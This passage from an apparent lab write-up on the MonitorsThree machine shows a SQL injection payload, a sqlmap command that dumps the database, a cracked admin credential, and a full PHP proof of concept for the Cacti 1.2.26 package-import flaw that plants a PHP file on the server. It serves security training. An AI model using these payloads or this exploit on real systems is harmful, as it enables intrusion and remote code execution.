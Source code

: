 Trying to go lower till we reach this `tr'+ORDER+BY+9+--+-+` 

<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240829211558.png" alt="16" style="width:700px; height:auto;">
<br/>

Seems that this payload worked but it actually doesn't display anything.  
From this we can conclude that this is a blind  error based or time based SQL injection with a prefix of `'` and a suffix of `-- -` and the vulnerable page is the `forgot_password` page.  
Knowing that we can proceed with `sqlmap`, stop the 2 processes and give `sqlmap` some hints to speed things up a little bit 

```bash
sqlmap -r req2  --batch --prefix="'" --suffix="-- -" --dbs  --technique=BEU
```

And we get a hitt!! we discover the database `monitorsthree_db` and ending up (after very very long time due to poor connection) extracting those findings.

<br/> 
<img src="/img/MonitorsThreeScreenshots/Screenshot_2.png" alt="17" style="width:700px; height:auto;">
<br/>

Cracking the hash and we end up with the credentials `admin:greencacti2001`  
Trying to login with those credentials to our admin panel 
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240829213035.png" alt="18" style="width:700px; height:auto;">
<br/>
We logged in as admin but it led us to nowhere.  
Time to check for our other Vhost `cacti`  
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240829213348.png" alt="19" style="width:700px; height:auto;">
<br/>

`cacti` application found with a version `1.2.26`  
A small search, a vulnerability was found this [link](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88) explains the exploitation  
Using this exploit here

```php
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php phpinfo(); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```